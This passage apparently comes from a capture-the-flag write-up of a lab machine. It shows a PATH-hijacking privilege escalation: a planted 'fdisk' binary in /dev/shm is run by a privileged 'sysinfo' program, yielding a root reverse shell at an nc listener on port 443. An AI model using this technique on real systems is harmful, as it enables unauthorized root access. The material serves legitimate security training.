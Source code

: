 
I’ll test it and make sure it connects, and it does:

    
    
    theseus@ubuntu:/dev/shm$ ./fdisk
    

Now I’ll update my current path to include `/dev/shm`:

    
    
    theseus@ubuntu:/dev/shm$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
    theseus@ubuntu:/dev/shm$ echo $PATH                  
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    

Now when I run `sysinfo`, when it gets to the `fdisk` call, I get a shell at
my `nc` listener:

    
    
    theseus@ubuntu:/dev/shm$ sysinfo                                                                   
    ====================Hardware Info====================          
    H/W path           Device      Class      Description                                              
    =====================================================          
                                   system     VMware Virtual Platform
    /0                             bus        440BX Desktop Reference Platform
    ...[snip]...
    /0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
    /1                             system     
    
    ====================Disk Info====================
    
    

At `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.185.
    Ncat: Connection from 10.10.10.185:58406.
    root@ubuntu:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
    

And I can grab `root.txt`:

    
    
    root@ubuntu:/# cat /root/root.txt
    3f3721ee************************
    

## Beyond Root

### FilesMatch

